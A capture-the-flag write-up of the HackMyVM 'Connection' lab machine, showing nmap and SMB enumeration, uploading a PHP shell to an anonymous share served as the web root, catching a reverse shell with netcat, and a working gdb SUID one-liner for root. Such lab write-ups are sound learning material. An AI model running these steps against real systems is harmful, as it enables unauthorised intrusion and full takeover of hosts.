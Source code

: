 ```yaml
---
title: HackMyVM - Connection
description: My writeup on Connection box.
categories:
 - HackMyVM
tags: HackMyVM smb
---
```


![](https://i.imgur.com/VYEVjve.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

I found this really cool lab, similar to vulnhub but has point system/ranking etc. I suggest you to try this out, 101% worth it. We start by finding a share on SMB that we can connect as anonymous and we can upload our shell there this gives us a shell as www-data. Privesc to root is a simple SUID exploitation. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:27 EEST
Nmap scan report for connection.zte.com.cn (192.168.1.17)
Host is up (0.00020s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:49:78:7B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.20 seconds
$ nmap -p 22,80,139,445 -sC -sV -oN nmap/initial $ip 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:28 EEST
Nmap scan report for connection.zte.com.cn (192.168.1.17)
Host is up (0.00047s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:e6:01:b5:f9:06:a1:ea:40:04:29:44:f4:df:22:a1 (RSA)
|   256 fb:16:94:df:93:89:c7:56:85:84:22:9e:a0:be:7c:95 (ECDSA)
|_  256 45:2e:fb:87:04:eb:d1:8b:92:6f:6a:ea:5a:a2:a1:1c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
```

Let's start with SMB, as always let's list the shares.

```
$ smbmap -H $ip
[+] IP: 192.168.1.17:445	Name: connection.zte.com.cn                             
 Disk                                               Permissions	Comment
	----                                               -----------	-------
	share                                             	READ ONLY	
	print$                                            	NO ACCESS	  Printer Drivers
	IPC$                                              	NO ACCESS	  IPC Service (Private Share for uploading files)
```

Let's connect to `share`:

```
$ smbclient //$ip/share
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: > ls
  .                                   D        0  Wed Sep 23 04:48:39 2020
  ..                                  D        0  Wed Sep 23 04:48:39 2020
  html                                D        0  Thu Oct  1 12:32:02 2020

		7158264 blocks of size 1024. 5462992 blocks available
smb: > cd html
smb: html> ls
  .                                   D        0  Thu Oct  1 12:32:02 2020
  ..                                  D        0  Wed Sep 23 04:48:39 2020
  index.html                          N    10701  Wed Sep 23 04:48:45 2020

		7158264 blocks of size 1024. 5462992 blocks available
smb: html> 
```

We have access to web content, we can simply upload our shell and execute it!

## Shell as www-data

```
smb: html> put shell.php
putting file shell.php as \html\shell.php (1073.0 kb/s) (average 1073.0 kb/s)
smb: html> exit
$ curl http://$ip/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@connection:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as root

If we search for SUIDS, we can see `gdb` is set as SUID we can simply exploit this to get root shell:

```
www-data@connection:/home/connection$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5 12:10 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-sr-x 1 root root 8008480 Oct 14  2019 /usr/bin/gdb
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
```

```
www-data@connection:/home/connection$ gdb -q -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# whoami;id
whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Let's read the flags:

```
# cat /root/proof.txt | cut -c1-10          
a7c6ea4931
# cat /home/connection/local.txt | cut -c1-10
3f491443a2
```

Good one!
